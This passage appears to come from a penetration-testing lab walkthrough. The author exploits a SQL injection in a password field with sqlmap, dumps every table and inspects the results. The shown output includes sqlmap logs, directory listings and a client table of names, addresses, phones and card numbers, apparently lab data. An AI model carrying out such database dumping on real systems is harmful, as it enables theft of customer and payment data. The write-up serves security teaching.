 The password parameter was vulnerable to SQL injection. I confirm that I want it to exploit that field and it dumped all the tables in the database. At some point it found passwords and asked if I wanted to crack them. I say no, this can be done later on in the background, better to let sqlmap finish dumping all the tables.

```
[17:56:09] [INFO] Table 'mysql.user' dumped to CSV file '/pentest/database/sqlmap/output/192.168.1.155/dump/mysql/user.csv'
[17:56:09] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/pentest/database/sqlmap/output/results-04072012_0541pm.csv'
 
[*] shutting down at 17:56:09
```

Once it had completed running, it was time to examine the dump files. Two databases were found aside from mysql and information_schema:

```
# ls -l
total 16
drwxr-xr-x 2 root root 4096 2012-04-07 17:44 clients
drwxr-xr-x 2 root root 4096 2012-04-07 17:44 creds
drwxr-xr-x 2 root root 4096 2012-04-07 17:48 information_schema
drwxr-xr-x 2 root root 4096 2012-04-07 17:56 mysql
```

I looked at the contents of the clients directory and found two tables inside, accounts and credits. The accounts table contained what appeared to be client information including credit card numbers:

```
# cat clients/accounts.csv 
address,CCN,cid,email,exp,name,phone,surname,type
"3965 Willis Ave:Daytona Beach, FL 32114",4485 6129 3846 3674,11,WinnieMFischer@example.org,12/2011,Winnie,386-323-1724,Fischer,Visa
"4970 Haven Ln:Lansing, MI 48933",4485 9777 7807 3283,27,MichaelMahler@example.org,10/2014,Michael,517-652-8204,Mahler,Visa
"4253 Hummingbird Way:Cambridge, MA 02141",4539 1640 5255 9206,18,ArthurRBailey@example.org,3/2012,Arthur,781-994-7119,Bailey,Visa
"4011 Randall Dr:Kawaihae, HI 96743",4539 1845 7920 4698,17,MarthaCFrost@example.org,5/2015,Martha,808-880-6054,Frost,Visa
"4834 Freed Dr:Stockton, CA 95202",4716 1304 2847 6396,29,JessicaDuerr@example.org,10/2012,Jessica,209-679-1447,Duerr,Visa
```

The credits table had text thanking various people, nothing of interest to the attack. I looked into the contents of the creds database:

```
# ls -l
total 28
-rw-r--r-- 1 root root  348 2012-04-07 17:44 accounts.csv
-rw-r--r-- 1 root root 5208 2012-04-07 17:44 blogs_table.csv
-rw-r--r-- 1 root root 1026 2012-04-07 17:44 calender.csv
-rw-r--r-- 1 root root 5180 2012-04-07 17:44 employee.csv
-rw-r--r-- 1 root root  117 2012-04-07 17:44 page.csv
```
